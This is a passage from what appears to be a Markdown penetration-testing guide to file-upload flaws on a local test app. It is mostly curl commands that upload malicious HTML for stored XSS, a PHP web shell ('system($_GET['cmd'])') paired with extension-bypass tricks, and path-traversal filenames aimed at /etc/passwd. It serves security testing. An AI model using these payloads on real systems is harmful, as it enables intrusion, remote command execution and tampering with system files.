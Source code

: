 ```bash
EOF

# Upload malicious HTML
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@malicious.html"
```

**Access the uploaded file:**
```
http://localhost:3000/uploads/malicious.html
```

✅ **JavaScript executes in victim's browser!**

#### Step 3: File Extension Bypass

```bash
# Try double extension
echo "<?php system($_GET['cmd']); ?>" > shell.php.txt

curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@shell.php.txt"

# Try null byte injection (older systems)
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@shell.php%00.txt"

# Try case variations
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@shell.PHP"
```

#### Step 4: Path Traversal Attack

```bash
# Try to upload to parent directory
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@test.txt;filename=../../../etc/passwd"

# Try various path traversal techniques
curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@test.txt;filename=....//....//....//etc/passwd"

curl -X POST http://localhost:3000/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@test.txt;filename=..%2F..%2F..%2Fetc%2Fpasswd"
```
